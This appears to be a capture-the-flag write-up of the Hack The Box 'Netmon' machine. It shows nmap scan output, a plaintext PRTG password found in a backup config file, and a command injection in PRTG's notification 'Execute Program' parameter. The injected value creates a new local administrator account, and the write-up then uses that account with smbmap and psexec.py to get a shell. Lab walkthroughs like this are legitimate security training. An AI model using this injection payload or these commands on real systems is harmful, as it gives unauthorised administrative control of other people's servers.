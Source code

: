 1,Recon
port scan
```
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_11-10-23  09:20AM       <DIR>          Windows
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-12-16T11:30:14
|_  start_date: 2024-12-16T11:19:12
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

To be honest, when I found the port 445 service and the version of system `Microsoft Windows Server 2008 R2 - 2012 microsoft-ds`
I can only think about `EternalBlue`.But it seems like no vulner here.

Page check
port 80
![](images/Pasted%20image%2020241216065906.png)
I’ll grab the three config files and look through them. When I see places in the .dat file and the .old file that might have passwords, it always looks like this:
```
 <dbpassword>
              <flags>
                <encrypted/>
              </flags>
</dbpassword>
```
However, in PRTG Configuration.old.bak, I find this:
```
<dbpassword>
              <!-- User: prtgadmin -->
              PrTg@dmin2018
</dbpassword>
```

Now that I have creds, I can try to log in. Unfortunately, trying the creds from the bak file returns:
![](images/Pasted%20image%2020241216071705.png)
However, on thinking a minute, the creds are from the backup of an old file, and end in “2018”. I’ll try 2019, and it works, bringing me to the PRTG dashboard for System Administrator:
![](images/Pasted%20image%2020241216071717.png)

By searching the version of PRTG 
`PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution`
There is a blog about command injection in PTRG `https://codewatch.org/2018/06/25/prtg-18-2-39-command-injection-vulnerability/` 

I’ll follow the post, and go to Setup > Account Settings > Notifications:
![](images/Pasted%20image%2020241216073638.png)

On the very right, I’ll hit the plus, and then “Add new notification”. Leaving everything else unchanged, I’ll scroll down to the bottom and select “Execute Program”. The injection is in the Parameter. I’ll select the demo ps1 file for the program file, and then enter `test.txt;net user anon p3nT3st! /add;net localgroup administrators anon /add`:

On hitting save, I’m back at the list of notifications. I’ll click the box next to my new on, and then the top icon of the bell to test the notification:
![](images/Pasted%20image%2020241216073909.png)

After waiting a few seconds, I’ll run smbmap with my new user, and see I have full access:
```
smbmap -H 10.10.10.152 -u anon -p "p3nT3st\!"

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.5 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                      
                                                                                                                             
[+] IP: 10.10.10.152:445        Name: 10.10.10.152              Status: ADMIN!!!   
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  READ, WRITE     Remote Admin
        C$                                                      READ, WRITE     Default share
        IPC$                                                    READ ONLY       Remote IPC
[*] Closed 1 connections                                                                   
```

We can also use `psexec.py` to get the shell
`psexec.py 'anon:p3nT3st!@10.10.10.152'`
